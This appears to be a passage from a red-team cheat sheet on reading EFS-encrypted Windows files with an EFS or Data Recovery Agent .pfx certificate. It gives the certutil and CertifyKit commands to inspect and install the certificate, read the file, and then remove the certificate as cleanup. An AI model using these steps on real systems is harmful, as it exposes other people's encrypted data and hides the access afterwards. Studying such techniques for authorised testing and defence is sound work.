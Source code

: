 #### Check .pfx file for EFS EKU
- Check for EKU
	- `Encrypting File System certificates` (`1.3.6.1.4.1.311.10.3.4`) This type of certificate uses EFS to encrypt and decrypt data and is called as an EFS certificate.
	- `File Recovery certificates` (`1.3.6.1.4.1.311.10.3.4.1:)` This type of certificate allows to recover all encrypted files and folders (domain or offline) no matter who encrypted them and is called as an EFS DRA (Data Recovery Agent) certificate. 

```
certutil -v -dump -p <PASSWORD> <PATH TO PFX>
```

#### Import EFS certificate
```
.\CertifyKit.exe list /certificate:<PATH TO EFS .pfx> /storename:My /install
```

#### Read the encrypted file
```
type <FILE>
```

#### Cleanup
```
.\CertifyKit.exe list
.\CertifyKit.exe list /certificate:<FINGERPRINT> /storename:My /remove
```

